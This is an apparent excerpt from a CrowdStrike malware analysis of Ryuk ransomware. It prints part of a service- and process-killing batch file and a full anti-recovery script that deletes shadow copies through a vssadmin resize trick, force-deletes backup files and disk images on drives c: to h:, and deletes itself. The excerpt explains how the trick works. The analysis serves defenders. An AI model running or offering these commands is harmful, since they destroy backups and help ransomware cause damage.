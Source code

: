 sc config SQLWriter start= disabled
sc config SstpSvc start= disabled
…
taskkill /IM mspub.exe /F
taskkill /IM mydesktopqos.exe /F
taskkill /IM mydesktopservice.exe /F
Figure 1. Process/Services Termination kill.bat Commands
CrowdStrike has observed another batch file, named windows.bat, which makes file recovery more difficult on the victim’s machine. It should be noted that file names can be arbitrarily  changed by the threat actors. The contents of the batch file are shown below in Figure 2.
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
Figure 2. Anti-Recovery window.bat Commands
These anti-forensic recovery commands are quite interesting and appear to make use of an undocumented feature of the vssadmin resize command. While the first command in Figure 2 above, vssadmin Delete Shadows /all /quiet, is commonly used by ransomware, the command option vssadmin resize shadowstorage is rarely used. In situations where shadow copies were not created by vssadmin, but by third-party applications (such as backup software), vssadmin can display an error and not delete the backups. One such error states: “Snapshots were found, but they were outside of your allowed context. Try removing them with the backup application which created them.” The vssadmin resize shadowstorage command is a “hack” that relies on vssadmin to delete storage when the shadow copies are resized. It forces the shadow copies to be deleted regardless of their context. The command works by resizing the default shadow volume size from 10 percent to 401 MB (the minimum size is 300 MB). Then the shadow storage is set to unbounded, which allows it to use all available disk space. The shadow copies are then deleted by calling the command vssadmin Delete Shadows /all /quiet a second time.
The final set of commands deletes files based on their extension or folder locations. The command arguments are for del delete files in all sub-directories (/s) in quiet mode (/q) without asking the user for confirmation and to force (/f)  the deletion of a file. The file extensions are for Virtual Hard Disk (.VHD), Avantrix Backup Plus files (.bac), backup copy (.bak), Windows Backup Catalog File (.wbcat), Windows Backup Utility File (.bfk), setting files (.set), Windows Backup File (.win), Disk Images (.dsk) and all folders that start with Backup. Note that since the del command does not securely delete a file (i.e., overwrite a file before deletion), some level of file recovery may be possible using forensic tools. The last command of del %0 deletes the executing .bat file.
The anti-recovery commands used by Ryuk are more extensive than most ransomware families. These commands have not been observed being used by other ransomware families yet. This indicates that the threat actors have a thorough understanding of enterprise backup software.
5. Attribution
North Korea